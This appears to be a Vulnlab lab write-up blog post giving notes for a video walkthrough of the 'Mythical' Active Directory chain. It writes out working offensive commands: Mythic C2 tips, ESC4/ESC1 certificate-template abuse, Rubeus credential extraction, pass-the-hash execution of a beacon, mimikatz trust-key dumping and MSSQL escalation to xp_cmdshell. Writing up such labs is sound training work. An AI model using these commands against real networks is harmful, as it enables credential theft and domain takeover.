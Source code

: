 ```yaml
---
categories:
- Vulnlab
image:
  path: preview.png
layout: post
media_subpath: /assets/posts/2024-12-08-vl-mythical
tags:
- active directory
- c2
- windows
- mssql
- mythic
- trust
title: VL Mythical
---
```


This video is a walkthrough on Mythical, a medium-difficulty AD chain on Vulnlab that is all about engaging AD environments with the Mythic C2 framework.

{% youtube CPOJt-Gujkc %}

## Notes

These are some additional notes to the video.

### Getting Started with Mythic

- The login for the Web UI here is `mythic_admin: wG4jmjNcEcfmzv3QbEcJdSVTDEjCnX`
- For real time interaction, use `sleep 0 0`
- Doing `ls` will show the interactive file browser
- To run .Net tooling from memory, use `register_assembly`, followed by `execute_assembly`
- To run PowerShell, use `powershell_import` to load a module and `powershell` or `powerpick` to run it
- To switch into another users context, use `make_token domain\user password`

### Useful Tooling

- [PortScanner](https://github.com/IceMoonHSV/PortScanner) 
- [BloodHound](https://github.com/ly4k/BloodHound) e.g. `execute_assembly SharpHound.exe -c all,gpolocalgroup`
- [Certify](https://github.com/GhostPack/Certify) e.g. `execute_assembly Certify.exe find /vulnerable`
- [PowerView](https://github.com/PowerShellMafia/PowerSploit/blob/master/Recon/PowerView.ps1)
- [StandIn](https://github.com/FuzzySecurity/StandIn)
- [PassTheHash from PowerShell](https://github.com/Kevin-Robertson/Invoke-TheHash/tree/master)


### Rsync

```terminal
shell rsync.exe --list-only rsync://192.168.25.1
shell mkdir \temp 
shell rsync -av rsync://192.168.25.1/mythical /temp
cd ..\temp
```

### ESC4 from Powershell

```terminal
Add-DomainObjectAcl -TargetIdentity Machine -PrincipalIdentity "Domain Users" -RightsGUID "0e10c968-78fb-11d2-90d4-00c04f79dc55" -TargetSearchBase "LDAP://CN=Configuration,DC=mythical-us,DC=vl"
Set-DomainObject -SearchBase "CN=Certificate Templates,CN=Public Key Services,CN=Services,CN=Configuration,DC=mythical-us,DC=vl" -Identity Machine -XOR @{'mspki-certificate-name-flag'=1} -Verbose
Set-DomainObject -SearchBase "CN=Certificate Templates,CN=Public Key Services,CN=Services,CN=Configuration,DC=mythical-us,DC=vl" -Identity Machine -Set @{'mspki-certificate-application-policy'='1.3.6.1.5.5.7.3.2'} -Verbose
```

### ESC1 with Certify

```terminal
execute_assembly Certify.exe request /ca:dc01.mythical-us.vl\mythical-us-DC01-CA /template:Machine /altname:Administrator@mythical-us.vl
```

### Get NTLM Hash from Rubeus & obtain a SYSTEM beacon

Note the `/getcredentials` flag.

```terminal
execute_assembly Rubeus.exe asktgt /user:Administrator /certificate:c:\_admin\admin.pfx /ptt /nowrap /getcredentials

powershell Invoke-SMBExec -Target 127.0.0.1 -Domain mythical-us.vl -Username administrator -Hash ... -Command "c:\programdata\google\update.exe"
```

### Getting the Trust Account

```terminal
powershell Get-AdTrust -Filter *

mimikatz "lsadump::trust /patch"
```

### Using the PowerShell AD Module to get users from the second domain

```terminal
Get-ADUser -Filter * -Server "dc02.mythical-eu.vl" -Property DisplayName, SamAccountName | Select-Object DisplayName, SamAccountName
```


### Connection to MSSQL via sqlcmd and privilege escalation via db_owner

```terminal
# Verify connection
shell sqlcmd.exe -S tcp:10.10.241.247,1433 -Q "SELECT name, database_id, create_date FROM sys.databases;"

# Enumerate Trustworthy Databases and DB Owners
shell sqlcmd.exe -S tcp:10.10.241.247,1433 -Q "SELECT a.name,b.is_trustworthy_on FROM master..sysdatabases as a INNER JOIN sys.databases as b ON a.name=b.name;"
shell sqlcmd.exe -S tcp:10.10.241.247,1433 -d msdb -Q "SELECT rp.name as database_role, mp.name as database_user from sys.database_role_members drm join sys.database_principals rp on (drm.role_principal_id = rp.principal_id) join sys.database_principals mp on (drm.member_principal_id = mp.principal_id)"

# Exploit DB_Owner
shell sqlcmd.exe -S tcp:10.10.241.247,1433 -d msdb -Q  "CREATE OR ALTER PROCEDURE dbo.xct WITH EXECUTE AS owner AS ALTER SERVER ROLE sysadmin ADD MEMBER [MYTHICAL-EU\svc_sql];"
shell sqlcmd.exe -S tcp:10.10.241.247,1433 -d msdb -Q  "EXEC dbo.xct;"
shell sqlcmd.exe -S tcp:10.10.241.247,1433 -d msdb -Q  "EXEC sp_configure 'show advanced options', 1; Reconfigure;"
shell sqlcmd.exe -S tcp:10.10.241.247,1433 -d msdb -Q  "EXEC sp_configure 'xp_cmdshell', 1; Reconfigure;"
shell sqlcmd.exe -S tcp:10.10.241.247,1433 -d msdb -Q  "EXEC xp_cmdshell 'whoami'"
```

### Create SMB Share on Windows from Commandline

```terminal
mkdir C:\temp
net share temp=C:\temp /grant:everyone,full
```